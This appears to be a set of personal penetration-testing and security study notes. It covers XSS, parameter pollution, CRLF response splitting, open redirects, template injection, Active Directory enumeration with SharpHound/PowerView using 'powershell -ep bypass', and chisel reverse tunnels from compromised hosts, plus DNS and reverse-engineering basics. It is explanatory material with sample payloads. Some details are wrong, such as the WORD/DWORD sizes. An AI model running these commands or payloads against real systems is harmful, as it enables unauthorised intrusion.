Reflected XSS occurs when an application receives data which it then includes in its reply to the submitted HTTP request. This is typically exploited by creating a malicious link containing a script inside it and then tricking a user into clicking visiting that URL.
This type of XSS allows the attacker to perform any action on the application as the target. It is commonly used for stealing non-httponly cookies.
Suppose you have a search bar somewhere in your application, the contents of which are sent as a URL parameter in a GET request when a user clicks the search button and are then displayed on the response page in a similar manner:
Search results for: <search text>
The request could be to the following example URL:
example.com/?search=val
If your application is vulnerable to XSS, the attacker could craft a malicious URL like the following one:
example.com/?search=<script>alert('test')</script>
This would inject the Javascript as HTML into the <search text> on the response page and the browser would then execute the code.
Stored XSS
Stored, or persistent, XSS is similar to reflected XSS, with the difference being that the injected code is actually stored onto the web server and then later distributed to anyone who requests the injected web page. This type of XSS is much more severe, since it can spread around.
Once Javascript has been injected and stored on the web server, the malicious Javascript will be delivered to and executed by any user who requests the specific web page.
DOM-based XSS
DOM-based XSS is a type of XSS where the malicious code is never sent to the server. This commonly occurs when using the fragment part of a URL, or by referencing document.URL / document.location.href.
This a less common attack nowadays, since most browser automatically escape Javascript in address bars, so DOM-based XSS will only work if you unescape it.
Suppose you have a page on
http://127.0.0.1:8080/example.html
You can add fragments to the URL with a # symbol.
http://127.0.0.1:8080/example.html#test=val
The fragment part (#test=val) is never sent to the server - it is only available locally.
Suppose you had the following client-side Javascript code running:
const pos = document.URL.indexOf("test=") + 5;
const value = document.URL.substring(document.URL.indexOf("test=") + 5, document.URL.length);
document.write(value);
An attacker could craft the following URL:
http://127.0.0.1:8080/example.html#test=<script>alert('xss')</script>
However, if a victim clicks on this link, no Javascript should be injected, since the browser would usually automatically escape it - you would get
%3Cscript%3Ealert('xss')%3C/script%3E
printed on the page. If you, however, unescape the Javascript in your client-side code, it will get executed.
Overview
HTTP Parameter Pollution describes the set of techniques used for manipulating how a server handles parameters in an HTTP request. This vulnerability may occur when duplicating or additional parameters are injected into an HTTP request and the website trusts them. Usually, HPP (HTTP Parameter Pollution) vulnerabilities depend on the way the server-side code handles parameters.
Server-Side HPP
You send the server unexpected data, trying to make the server give an unexpected response. A simple example could be a bank transfer.
Suppose, your bank performs transfers on its website through the use of HTTP parameters. These could be a recipient= parameter for the receiving party, an amount= parameter for the amount to send in a specific currency, and a sender= parameter for the one who sends the money.
A URL for such a transfer could look like the following:
https://www.bank.com/transfer?sender=abcdef&amount=1000&recipient=ghijkl
It may be possible that the bank server assumes it will only ever receive a single sender= parameter, however, submitting two such parameters (like in the following URL), may result in unexpected behaviour:
https://www.bank.com/transfer?sender=abcdef&amount=1000&recipient=ghijkl&sender=ABCDEF
An attacker could send such a request in hopes that the server will perform any validations with the first parameter and actually transfer the money from the second account specified. When different web servers see duplicate parameters, they handle them in different ways.
Even if a parameter isn't sent through the URL, inserting additional parameters may still cause unexpected server behaviour. This is especially the case with server code which handles parameters in arrays or vectors through indices. Inserting additional parameters at different places in the URL may cause reordering of the array values and lead to unexpected behaviour.
An example could be the following:
https://www.bank.com/transfer?amount=1000&recipient=ghijkl
The server would deduce the sender on the server-side instead of retrieving it from an HTTP request.
Normally, you wouldn't have access to the server code, but for a POC I have written a simple server in a pseudo-code (no particular language).
sender.id = abcdef
function init_transfer(params)
{
params.push(sender.id) // the sender.id should be inserted at params[2]
prepare_transfer(params)
}
function prepare_transfer(params)
{
amount = params[0]
recipient = params[1]
sender = params[2]
transfer(amount, recipient, sender)
}
Two functions are created here, init_transfer and prepare_transfer which takes a params vector. This function also later invokes a transfer function, the contents of which are currently out of scope. Following the above URL, the amount parameter be 1000, the recipient would be ghijkl. The init_transfer function adds the sender.id to the parameter array. Note, that the program expects the sender ID to be the 3rd (2nd index) parameter in the array in order to function properly. Finally, the transfer params array should look like this: [1000, ghijkl, abcdef].
Now, an attacker could make a request to the following URL:
https://www.bank.com/transfer?amount=1000&recipient=ghijkl&sender=ABCDEF
In this case, sender= would be included into the parameter vector in its initial state (before the init_transfer function is invoked). This means that the params array would look like this: [1000, ghijkl, ABCDEF]. When init_transfer is called, the sender.id variable would be appended to the vector and so it would look like this: [1000, ghijkl, ABCDEF, abcdef]. Unfortunately, the server still expects that the correct sender would be located at params[2], but that is no longer the case since we managed to insert another sender. As such, the money would be withdrawn from ABCDEF and not abcdef.
Client-Side HPP
These vulnerabilities allow the attacker to inject extra parameters in order to alter the client-side. An example of this is included in the following presentation: https://owasp.org/www-pdf-archive/AppsecEU09_CarettoniDiPaola_v0.8.pdf.
The example URL is
http://host/page.php?par=123%26action=edit
The example server code is the following:
<? $val=htmlspecialchars($_GET['par'],ENT_QUOTES); ?>
<a href="/page.php?action=view&par='.<?=$val?>.'">View Me!</a>
Here, a new URL is generated based on the value of a parameter $val. Here, the attacker passes the value 123%26action=edit onto the parameter. The URL-encoded value for & is %26. When this gets to the htmlspecialchars function, the %26 gets converted to an &. When the URL gets formed, it becomes
<a href="/page.php?
action=view&par=123&action=edit">
And since this is view as HTML, an additional parameter has been smuggled! The link would be equivalent to
/page.php?
action=view&par=123&action=edit
This second action parameter could cause unexpected behaviour based on how the server handles duplicate requests.
Introduction
HTTP Response Splitting occurs when user-provided input isn't sanitised and CRLFs are injected into HTTP responses. This is usually done through URL parameters. This type of attack typically requires social engineering or at least some user interaction.
HTTP responses consist of message headers and a message body. The headers are separated from the body with 2 CRLFs - \r\n\r\n. An attacker could inject this character sequence into a header and terminate the header section - this could result in XSS, since anything after the 2 CRLFs will be treated as HTML.
Imagine a custom header X-Name: Bob which is set via a parameter in a GET request called name. If input isn't properly sanitised, an attacker could craft the following URL which would result in XSS:
?name=Bob%0d%0a%0d%0a<script>alert(document.domain)</script>
In other cases, HTTP response splitting may be used to send two responses to a single request by injecting the second response into the first one. A URL like the following could change the contents of a legitimate page that the target visits:
application.com/redir.php?lang=hax%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%d%aContent-Length:%2019%0d%0a<html>Hacked</html>
All the target needs to do, is visit the URL.
Overview
Open redirect vulnerabilities occur when a target visits a website which sends their browser to another URL. These attacks only redirect users and as such are often considered to be of low severity.
How Do They Work
Open redirects occur when a developer mistrusts user input, which redirects to another site, usually via a URL
parameter, HTML <meta> tags, or the DOM window
location property.
URL Parameter Redirect
Suppose that Google could redirect users to their Gmail service via the following URL:
https://www.google.com/?redirect_to=https://www.gmail.com
In this case, visiting www.google.com would result in your browser sending an HTTP request to the Google web server. The server would process this request and return a status code - typically 302, although it may sometimes be 301, 303, 307, or 308. This code would inform the browser that the page has been found, however, it would also tell it to make an additional HTTP request to www.gmail.com. This will be noted in the Location: header of the HTTP response. This header specifies where to redirect GET requests. An attacker could change the value of the redirect_to parameter and forward you to their malicious server.
Common redirection parameter names include url=, redirect=, next=, however, they may also be denoted by a single letter at times.
Meta Refresh Tag Redirect
HTML <meta> tags can tell a browser to reload a page and make a GET request to a specified URL. This URL is defined in the tag's content attribute.
This is an example of such a tag:
<meta http-equiv="refresh" content="0; url=https://www.google.com/">
First, the content attribute defines the number of seconds the browser should wait before making the request to the URL. Secondly, it specifies the URL to make the request to.
Javascript Redirect
Open redirects can be exploited by modifying the window's location property through the Document Object Model. This property denotes where a request should be redirected to.
An attacker may change the location property through any of the following ways:
window.location = https://www.google.com/
window.location.href = https://www.google.com
window.location.replace(https://www.google.com)
This type of open redirect is usually chained with some sort of XSS.
Overview
Template Injection occurs when an attacker injects malicious template code into an input field and the templating engine doesn't sanitise the input. As such, the expression provided by the attacker may be evaluated and can lead to all sorts of nasty vulnerabilities such as RCE.
Server-Side Template Injection
SSTI occurs when the injection happens on the server-side. Templating engines are associated with different programming languages, so you might be able to execute code in that language when SSTI occurs.
Testing for SSTI is template engine-dependent because different engines make use of a different syntax. It is, however, common to see templates enclosed in two pairs of {{}}.
You should look for places in a webpage where user input is reflected. If you inject {{7*'7'}} and see 49 or 7777777 somewhere, then you know you have SSTI. This syntax isn't standard. You will need to identify the running template engine and use the correct syntax.
Client-Side Template Injection
This vulnerability occurs in client template engines, which are written in Javascript. Such engines are Google's AngularJS and Facebook's ReactJS.
CSTI typically occur in browser, so they typically cannot be used for RCE, but may be exploited for XSS. This can be difficult, since most engines do a good job at sanitising input and preventing XSS.
When interacting with ReactJS, you should look for dangerouslySetInnerHTML function calls where you can modify the input. This function intentionally bypasses React's XSS protections.
AngularJS versions before 1.6 include a sandbox in order to limit the available Javascript functions, but bypasses have been found. You can check the AngularJS version by typing Angular.version in the developer console. A list of bypasses can be found at https://pastebin.com/xMXwsm0N, however, more are surely available online.
Post Exploitation
Active Directory (AD)
Overview
Bloodhound is a tool used for finding relationships and patterns within data from an Active Directory environment. It is run on the attacker's machine and accessed through a web interface. Bloodhound operates on data and this data comes from a collector which is executed on the target machine.
Setup
- Install Bloodhound
sudo apt install bloodhound
- Configure neo4j - Bloodhound relies on a different tool called neo4j. It is best to change its default credentials.
- run neo4j
sudo neo4j console- open the link it gives you and use the credentials neo4j:neo4j to login
- change the password
Collecting Data for Bloodhound
Data is obtain through a collector. There are different ones available. You can get SharpHound from the Bloodhound GitHub repo - https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1.
Start neo4j and bloodhound:
sudo neo4j console
sudo bloodhound
Run the collector on the target machine:
powershell -ep bypass
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Domain <domain> -ZipFileName <output file>
/Resources/Images/bloodhound/sharphoundcollector.png)
Now, move the files to the attacker machine.
Viewing the Data
In Bloodhound, on the right you should see a button for Upload Data. Select the previously obtained zip file and wait for Bloodhound to process it.
/Resources/Images/bloodhound/uploaddata.png)
In the top left, click on the three dashes and you should see a summary of the data imported:
/Resources/Images/bloodhound/importedsummary.png)
Finding Relationships in the Data
Through the analysis tab, you can see a bunch of pre-made queries. Their names are usually self-describing. Clicking on any of them will generate a particular graph expressing a specific relationship within the AD environment:
/Resources/Images/bloodhound/domainadmins.png)
You are also able to create custom queries.
Overview
PowerView is a PowerShell tool for the enumeration of Windows domains. The script can be downloaded from https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1.
Before running, you need to bypass PowerShell's execution policy:
powershell -ep bypass
/Resources/Images/powershell-ep-bypass.png)
Load the script using
. .\PowerView.ps1
Normally, you'd be running these commands through some sort of shell, but for the sake of simplicity, I will show them all run locally.
Get Domain Information
Get-NetDomain
/Resources/Images/getnetdomain.png)
Get Domain Controller Information
Get-NetDomainController
/Resources/Images/getnetdomaincontroller.png)
Retrieve Domain Policy Information
Get-DomainPolicy
/Resources/Images/getdomainpolicy.png)
You can also get information about a specific policy with the following syntax:
(Get-DomainPolicy)."policy name"
/Resources/Images/getsystemaccessdomainpolicy.png)
Get Users Information
Get-NetUser
The output of this command is rather messy, but you can pull specific information with the following syntax:
Get-NetUser | select <property>
/Resources/Images/getnetusersamaccname.png)
However, there is an even better way to do that.
Get User Property Information
Get a specific properties of all the users:
Get-DomainUser -Properties <property1>,<property2>,...
It is useful to always have the samaccountname as the first property selected, so that you can easily match properties with specific users.
/Resources/Images/getdomainuserproperty.png)
Get Domain Machines
Get-DomainComputer | select samaccountname, operatingsystem
/Resources/Images/getdomaincomputers.png)
Get Groups
Get-NetGroup | select samaccountname, admincount, description
/Resources/Images/getdomaingroups.png)
Get Group Policy Information
Get-NetGPO | select <property1>,<property2>,...
/Resources/Images/getnetgpo.png)
Additional Resources
https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters/powerview
Introduction
Chisel is an open-source application for port tunneling. You can get it from https://github.com/jpillora/chisel. Clone the repo and follow the installation instructions.
In order to port tunnel with chisel, you need to have a copy of the binary on both the attacking and the compromised machines.
Creating a reverse tunnel
Run the following command on the attacking machine:
chisel server -p [Listen Port] --reverse &
This will setup a chisel server on Listen Port.
On the compromised systenm run:
chisel client [Attacker IP]:[Listen Port] R:[Local Host]:[Local Port]:[Remote Host]:[Remote Port] &
This will endeavour to connect to a chisel server at the specified Attacker IP and Listen Port. Once it has connected to the remote chisel server, the chisel server will open Remote Port on the Remote Host and tunnel it to the Local Port of Local Host. From now on, any traffic sent to Remote Port on the Remote Host will be forwarded to the Local Port of Local Host.
Chisel also defines some defaults for these values, which means you can omit some of them:
Local Host - 0.0.0.0
Remote Host - 0.0.0.0 (server localhost)
As an example, suppose you start a chisel server on your attacking machine (10.10.10.189) on port 1337, and want to gain access to port 3306 on the compromised machine. On the attacking machine you run:
chisel server -p 1337 --reverse &
On the compromised system you will run:
chisel client 10.10.10.189:1337 R:localhost:3306:localhost:31337 &
The above basically translates to "Forward any traffic intended for port 31337 localhost on my attacking machine to port 3306 on the localhost of the compromised system".
1. Goals of Malware Analysis
Malware analysis serves the purpose of providing the information needed to respond to a network intrusion. You will typically need to determine what took place and make sure that you have identified all of the infected machines and files. In analyzing suspected malware, you will seek to determine exactly what it does, how it can be detected on a network, and how to measure and contain its damage.
- host-based signatures - also known as indicators, are used to detect malicious code on victim computers. These often identify files created and/or modified by the malware or specific changes it makes to the registry. Unlike antivirus signatures, malware indicators focus on what the malware does to a system and not on what its characteristics are. Hence why they are better at detected malware which mutates or has been erased from the hard disk.
- network singnatures - they detect malware by analyzing network traffic.
2. Malware Analysis Techniques
- Basic Static Analysis - examining the executable without looking at the actual instructions. It can provide confirmation of whether a file is malicious, information about its functionality, and information for producing network signatures. It is straightforward and often quick, but rather ineffective against sophisticated malware.
- Basic Dynamic Analysis - running the malware and examining its behaviour in order to remove it from the system, produce effective signatures, or both. It requires an environment to run the malware without affecting your host system or network.
- Advanced Static Analysis - reverse-engineering the malware by loading the executable into a disassembler and examining the program instructions in order to piece together what the program does.
- Advanced Dyanamic Analysis - using a debugger to look at the internal state of the malicious code at runtime.
3. Types of malware
- to be finished
1. Antivirus Scanning
A good first step when analyzing possible malware is to scan it with multiple antivirus programs, which may already have identified the malicious code. However, AV tools are not perfect. The are reliant on a database which contains file signatures - identifiable pieces of known malicious code, and on heuristics - the analysis of behaviour combined with pattern-matching. Rare and modified malware can easily evade AV detection simply because it is not contained its database.
One should run several different antivirus programs against the prospective malicious code, since different AVs use different signatures and heuristics. As such, websites like VirusTotal can prove very useful in these situations - they allow you to upload files to be scanned by multiple antivirus engines.
2. Hashing
Hashing is a method commonly used for uniquely identifying malware. It can serve as a sort of fingerprint for the malicious code. The Message-Digest Algorithm 5 (MD5) is often used for this purpose, however, the Secure Hash Algorithm 1 (SHA-1) is also popular.
On Windows, one can generate such a hash by using CertUtil:

On Linux, the md5sum command is usually available:

Once you have a unique hash for some malware, you can use it in the following ways:
- using the hash as a label
- sharing the hash with other analysts to help them identify the malware
- look up the hash online to see if it has been previously identified
It is recommended to use sha256sum when you identify malware because md5sum is vulnerable to collision attacks.
3. Finding Strings
A string is a sequence of characters. A program may contain many different strings - printing a message, connecting to URLs, accessing file locations, etc. Searching through the strings in a program can give hints about its functionality. If a program creates or modifies a specific file, you will be able to see the string of the file location in the program. The Strings command can be used to seach a binary for strings that are usually stored in ASCII or Unicode format:

Note: I haven't used actual malicious code, but instead a little program that I created.
Networking
DNS
Introduction
Computers connected to the Internet have a numerical identifier - called an Internet Protocol Address (IP Address) - which is used to communicate with this machine. However, remembering a 32-bit number for each computer you want to connect to - even if it's formatted nicely into four separate sections - isn't practical at all. As such, a systematic way of resolving this issue was a created - a sort of lookup table for IP addresses, known as the Domain Name System.
What is the DNS?
The Domain Name System (or DNS for short) is a decentrialised database which provides answers to queries for domain names. Such a query is for example "What is the IP address of google.com? " When such a request is sent out, it will go through the DNS and eventually return with an IP address (if such was found). This saves the average user from having to remember a myriad different IPs for each website they want to visit.
The DNS Hierarchy
The DNS utilises a hierarchical structure for both storing and serving requested information.

At the top of the hierarchy are positioned the root name servers. These store and serve information about the top-level domains (TLDs) such as .net, .com, and .org. The TLD servers provide information about domains which use their corresponding TLD - .com servers contain information about domains such as google.com or duckduckgo.com. They won't give you the IP addresses for these hosts, but will instead point you in the right direction - to another DNS server.
The DNS can be thought of as a file system - one where the addresses are read from right to left and instead of forwards slashes, dots are used. The root is represented by a single dot (.), which is usually not visible. Next follow the top-level domains - similar to directories. Going further, we get second level domains and then subdomains, followed by hosts.
Dissecting a Basic DNS Query
Typing a domain name - such as google.com - into your browser will cause your operating system to attempt to resolve that domain name, or in other words - determine its IP address. It will first check locally for an answer as this is the fastest option. It will look into the local cache and the /etc/hosts file (on UNIX-like system, or C:\Windows\System32\drivers\etc\hosts on Windows). If an answer is not found, the DNS request will be forwarded to your DNS server, which will usually be your home router. Your DNS server may have the answer cached because someone on your network recently queried the same domain. If not, the DNS server will contain an IP address for another name server where you can forward your request - for example the DNS server at your ISP. It's very unlikely that your ISP's name server won't have a cached answer, given the amount of queries that constantly go through it. However, if this happens to be the case, the ISP's name server will carry out further requests on your behalf - exactly how your router forwards the query to your ISP's name server. Name servers can be configured to perform such lookups recursively or not.
If your ISP's name server does not know the IP for the server responsible for .com domains, it will ask one of the 13 root name servers, which are designated with the letters A through M). In reality, there are more than 13 physical machines handling these requests. More information about the root name servers you can find here.
This process will continue until you are forwarded to the name server responsible for the domain you are looking for. This name server will provide you with the IP address of your desired domain, which will be cached, allowing quicker access later.
Zones and Authority
Some name servers are authoritative in a particular subsection of the DNS - they answer queries only for domains in a particular space. Only one name server, known as the Start of Authority (SOA) could give a decisive answer for a particular query. Other name servers may have the answer cached, but only if they have previously requested it in the span of the time-to-live (TTL).
For example, the SOA for google.com is only responsible for domains in the google.com space. The spaces or name spaces within the DNS are usually referred to as zones of authority or simply zones.
In reality, there is usually more than a single name server for a big company like Google, however, they both do the same job and are considered the SOA. Their names usually go ns1, ns2, and so forth. Should one name server go offline, the next one would take its place in processing queries.
DNS Resource Records
I already mentioned that the DNS is similar to a database - one split up and stored around the globe. The entries in this database are called resource records and are usually stored in a flat-file format. Resource records do not only store IP addresses and hostnames - they contain other useful information, as well. These are the most common different types of resource records (a complete list can be found here):
- Address of Host (A) - the IPv4 address of the host
- Address of Host (AAAA) - the IPv6 address of the host
- Canonical Name (CNAME) - also an alias; two domains might point to the same place, in which case, one would be an alias. Querying the domain in this server will result in the A record.
- Mail Exchanger (MX) - refers to a mail server and can contain either an IP address or a hostname
- Name Server (NS) - contains the name server information for a given zone
- Start of Authority (SOA) - found at the beginning of every zone file, this record is bigger than others and stores the primary name server for the zone, including some other information
- Pointer (PTR) - used for reverse DNS lookups - finding the hostname by providing an IP address
- Text (TXT) - a simple text record used for adding extra functionality to DNS and storing miscellaneous information. Sometimes used by administrators for leaving humand-readable notes.
This is a special domain used for reverse DNS lookups. In the in-addr.arpa domain, IP addresses are represented as a sequence of four decimal numbers separated by dots. The suffix of in-addr.arpa is appended to the IP address. In this domain, however, IP address octets are read from right to left, but the contents of the octets are not. For example, in order to do a reverse lookup on 172.217.169.174, you would use 174.169.217.172.in-addr.arpa. This domain is used for reverse lookups on IPv4 addresses.
For IPv6 addresses, the ip6.arpa domain is used. The address is represented by hex digits in reverse order - each digit looking like a domain name. For example, to do a reverse look up on 2001:db8::567:89ab, you would use b.a.9.8.7.6.5.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.8.b.d.0.1.0.0.2.ip6.arpa.
Network Address Translation

Reverse Engineering
Program Anatomy
Instructions
Each program is comprised of a set of instructions which tell the CPU what operations it needs to perform. Different CPU architectures make use of different instruction sets, however, all of them boil down to two things - an opertation code (opcode) and optional data that the instruction operates with. These are all represented using bits - 1s and 0s.
mov
Moves the value inside one register to another:
mov rax, rdx
lea
Load effective address - this instruction calculates the address of its second operand and moves it into its first operand:
lea rdx, [rax+0x10]
This will move rax+0x10 inside rdx.
add
This instruction adds its operands and stores the result in its first operand:
add rax, rdx
sub
This instruction subtracts the second operand from the first and stores the result in its first operand
sub rax, 0x9
xor
It performs XOR-ing on its operands and stores the results into the first operand:
xor rdx, rax
The and and or are the same, but instead perform a binary AND and a binary OR operation, respectively.
push
Decreases the stack pointer (grows the stack) by 8 (4 on x86) bytes and stores the contents of its operand on the stack:
push rax
pop
Increases the stack pointer (shrinks the stack) by 8 (4 on x86) bytes and stores the popped value from the stack into its operand:
pop rax
jmp
Jumps to the address specified - used for redirecting code execution:
jmp 0x6A2B10
call
Used for invoking procedures. It first pushes the values of the base and stack pointers onto the stack and then jumps to the specified address. After the function is finished, a ret instruction is issued which restores the values of the stack and base pointers from the stack and continues execution from where it left off.
cmp
It compares the value of its two operands and sets the according flags depending on the result:
cmp rax, rdx
If rax < rdx, the zero flag is set to 0 and the carry flag is set to 1.
If rax > rdx, the zero flag is set to 0 and the carry flag is set to 0.
If rax = rdx, the zero flag is set to 1 and the carry flag is set to 0.
jz / jnz
jump-if-zero and jump-if-not-zero execute depending on the state of the zero flag.
Registers
Registers are value containers which reside on the CPU and not in RAM. They are small in size and some have special purposes. You may store both addresses and values in registers and depending on the instruction used, the data inside will be interpreted in a different way - this is commonly called an addressing mode.
In x86 Intel assembly (i386), the registers are 32 bits (4 bytes) in size and some of them are reserved:
ebp - the base pointer, points to the bottom of the current stack frame
esp - the stack pointer, points to the top of the current stack frame
eip - the instruction pointer, points to the next instruction to be executed
The other registers are general purpose registers and can be used for anything you like:
eax, ebx, ecx, edx, esi, edi.
x64 AMD assembly (amd64) extends these 32-bit registers to 64-bit ones and denotes these new versions by replacing the initial e with an r: rbp, rsp, rip, rax, ... It is important to note that these are not different registers - eax and rax refer to the same space on the CPU, however, eax only provides access to the lower 32 bits of the 64-bit register. You can also get access to the lower 16 and 8 bits of the register using different names:
| 8 Byte Register | Lower 4 Bytes | Lower 2 Bytes | Lower Byte |
|---|---|---|---|
| rbp | ebp | bp | bpl |
| rsp | esp | sp | spl |
| rip | eip | ||
| rax | eax | ax | al |
| rbx | ebx | bx | bl |
| rcx | ecx | cx | cl |
| rdx | edx | dx | dl |
| rsi | esi | si | sil |
| rdi | edi | di | dil |
| r8 | r8d | r8w | r8b |
| r9 | r9d | r9w | r9b |
| r10 | r10d | r10w | r10b |
| r11 | r11d | r11w | r11b |
| r12 | r12d | r12w | r12b |
| r13 | r13d | r13w | r13b |
| r14 | r14d | r14w | r14b |
| r15 | r15d | r15w | r15b |
Each row contains names which refer to different parts of the same register. Note, you cannot access the lower 16 or 8 bits of the instruction pointer.
You might sometimes see WORD or DWORD being used in a similar context - WORD means 4 bytes and DWORD means 8 bytes.
Register Use in x64 Linux
Under x64 Linux, function arguments are passed via registers:
rdi: First Argument
rsi: Second Argument
rdx: Third Argument
rcx: Fourth Argument
r8: Fifth Argument
r9: Sixth Argument
The return value is store in rax (eax on 32-bit machines).
Register Dereferencing
Register dereferencing occurs when the value of the register is treated as an address to the actual data to be used, rather than the data itself. This means that addressed can be stored in registers and used later - this is useful when dealing with large data sizes.
For example,
mov rax, [rdx]
Will check the value inside rdx and treat it as an address - it will go to the location where this address points and get its data from there. It will then move this data into rax. If we hadn't used [], it would have treated the address in rdx simply as a value and moved it directly into rax.
The Stack
The stack is a place in memory. It's a Last-In-First-Out (LIFO) data structure, meaning that the last element to be added will be the first to get removed. Each process has access to its own stack which isn't bigger than a few megabytes. Adding data to the stack is called pushing onto the stack, whilst removing data is called popping off the stack. Although the location of the added or removed data is fixed (it's always to or from the top of the stack), existing data can still be read or written to arbitrarily.
A special register is used for keeping track of the top of the stack - the stack pointer or rsp. When pushing data, the stack pointer diminishes, and when removing data, the stack pointer augments. This is because the stack grows from higher to lower memory addresses.

Stack Frames
When a function is invoked, a stack frame is constructed. First, the function's arguments which do not fit into the registers are pushed on the stack, then the return address is also pushed. Following this, the value of a special register known as the base pointer (rbp) is saved onto the stack and the value inside the register is then updated to point to the location on the stack where we saved the base pointer.
From then on, the stack pointer is used for allocating local data inside the function and the base pointer is used for accessing this data.
long func(long a, long b, long c, long d,
long e, long f, long g, long h)
{
long x = a * b * c * d * e * f * g * h;
long y = a + b + c + d + e + f + g + h;
long z = otherFunc(x, y);
return z + 20;
}

Sometimes, the base pointer might be completely absent in optimised programs because compilers are good enough in keeping track of offsets directly from the stack pointer.
Introduction
radare2 is an open-source framework for reverse engineering. The framework includes multiple tools which all work in tandem in order to aid in the analysis of binary files.
It uses short abbreviations for its commands - single letters - and many of its commands have subcommands which are also expressed as single letters. Luckily, you can always append a ? to a specific command in order to view its subcommands and what they do.
To quit radare2, use the q command.
Loading a Binary
You can load a binary by invoking the r2 command. You might sometimes need to also add the -e io.cache=true option in order to fix relocations in disassembly.

Analysis
aaa- analyse the binary
afl- list the analysed functions
axt <function>- list all the places where a function is called. Note, you need to use the flag name that redare automatically creates for funtions afteraaa.
Binary Info
-
i- display file information
-
ie- find the program's entry point
-
iM- find the program's main function
-
iz- pull the hard-coded strings from the executable (only the data sections), useizzto get the strings from the entire binary
-
Flags
Flags resemble bookmarks. They associate a name with a given offset in a file.
Create a new flag
f <name> @ offset
You can also remove a flag by appending - to the command:
f-<name>
List available flags - f:

Rename a flag
fr <old name> <new name>
Local Flags
Flag names should be unique for addressing reasons. However, it is often the case that you need to have simple and ubiquitous names like loop or return. For this purpose exist the so-called "local" flags, which are tied to the function where they reside. It is possible to add them using f. command:
Flag Spaces
Flags can be grouped into flag spaces - is a namespace for flags, grouping together similar flags. Some flag spaces include sections, registers, symbols. These are managed with the fs command.
[0x00001080]> fs?
Usage: fs [*] [+-][flagspace|addr] # Manage flagspaces
| fs display flagspaces
| fs* display flagspaces as r2 commands
| fsj display flagspaces in JSON
| fs * select all flagspaces
| fs flagspace select flagspace or create if it doesn't exist
| fs-flagspace remove flagspace
| fs-* remove all flagspaces
| fs+foo push previous flagspace and set
| fs- pop to the previous flagspace
| fs-. remove the current flagspace
| fsq list flagspaces in quiet mode
| fsm [addr] move flags at given address to the current flagspace
| fss display flagspaces stack
| fss* display flagspaces stack in r2 commands
| fssj display flagspaces stack in JSON
| fsr newname rename selected flagspace
Seeking
Moving around the file requires the usage of the seek (s) command in order to change the offset at which we are. It takes one argument which is a mathematical expression capable of containing flag names, parenthesis, addition, substraction, multiplication of immediates of contents of memory using brackets. Examples:
[0x00000000]> s 0x10
[0x00000010]> s+4
[0x00000014]> s-
[0x00000010]> s+
[0x00000014]>
Here is a list of additional seeking commands:
[0x00000000]> s?
Usage: s # Help for the seek commands. See ?$? to see all variables
| s Print current address
| s.hexoff Seek honoring a base from core->offset
| s:pad Print current address with N padded zeros (defaults to 8)
| s addr Seek to address
| s- Undo seek
| s-* Reset undo seek history
| s- n Seek n bytes backward
| s--[n] Seek blocksize bytes backward (/=n)
| s+ Redo seek
| s+ n Seek n bytes forward
| s++[n] Seek blocksize bytes forward (/=n)
| s[j*=!] List undo seek history (JSON, =list, *r2, !=names, s==)
| s/ DATA Search for next occurrence of 'DATA'
| s/x 9091 Search for next occurrence of \x90\x91
| sa [[+-]a] [asz] Seek asz (or bsize) aligned to addr
| sb Seek aligned to bb start
| sC[?] string Seek to comment matching given string
| sf Seek to next function (f->addr+f->size)
| sf function Seek to address of specified function
| sf. Seek to the beginning of current function
| sg/sG Seek begin (sg) or end (sG) of section or file
| sl[?] [+-]line Seek to line
| sn/sp ([nkey]) Seek to next/prev location, as specified by scr.nkey
| so [N] Seek to N next opcode(s)
| sr pc Seek to register
| ss Seek silently (without adding an entry to the seek history)
> 3s++ ; 3 times block-seeking
> s 10+0x80 ; seek at 0x80+10
Strings
/ <string>- search the bytes of the binary for a specific string
/w <string>- search for wide character strings like Unicode symbols
Introduction
Source code gets compiled to assembly and then assembly gets compiled to machine code. Assembly has a direct one-to-one mapping of its instructions to those in machine language. This makes assembly the only possible way to disambiguously take a look at what a program does. Assembly is essentially a human readable version of machine code.
Intel vs AT&T Syntax
There are two general syntax formats for writing Assembly - Intel and AT&T. I will be using Intel throughout my notes, but here is a list of common differences between the two because you never know which one you might have to read:
Intel
- Instruction format -
operation destination, source - Instruction sufixes - none
- Register & Immediate value prefixes - none
- Dereferencing - done with
[]
AT&T
- Instruction format -
operation source, destination - Mnemonic sufixes - mnemonics have a suffix depending on the size of their operands -
bfor byte,wfor word,llongmovb %bl,%al movw %bx,%ax movl %ebx,%eax movl (%ebx),%eax - Register & Immediate value prefixes - registers are prefixed with
%and immediate values with$ - Dereferencing - done with
()
Reverse Engineering with objdump
objdump is a program for displaying information from binaries. It can be used for showing different aspects of the object file. By default, it generates AT&T assembly, but you can change this with the -M intel option.
-
disassemble everything -
-Dobjdump -D <binary> -M intel
-
display sections headers -
-hobjdump -h <binary>
-
print private headers -
-pobjdump -p <binary>Note the flags on the private headers. If the
xflag is on, then that section is executable.
Tracing syscalls with strace
strace is a program for tracing what system calls a binary issues during runtime. It can be used with the following basic syntax:
strace <binary>
Note, that if the binary is in your current working directory, you will need to prepend ./ to its name because strace works with processes and not the actual stored binary.

Tracing library calls with ltrace
ltrace is rather similar to strace, but instead of system calls, it traces calls to functions in certain libraries. The syntax for it isn't unlike that for strace.
ltrace <binary>
Note, that if the binary is in your current working directory, you will need to prepend ./ to its name because ltrace works with processes and not the actual stored binary.

Web
Overview
Different web servers handle duplicating parameters in a variety of ways. An example of duplicate parameters would be:
https://www.bank.com/transfer?sender=abcdef&amount=1000&recipient=ghijkl&sender=ABCDEF
Here, there are two sender= parameters.
Handling
- Apache - uses the last occurrence
- Apache Tomcat - uses the first occurrence
- ASP - uses all occurrences
- ISP - uses all occurrences
A more exhaustive list may be found at https://owasp.org/www-pdf-archive/AppsecEU09_CarettoniDiPaola_v0.8.pdf.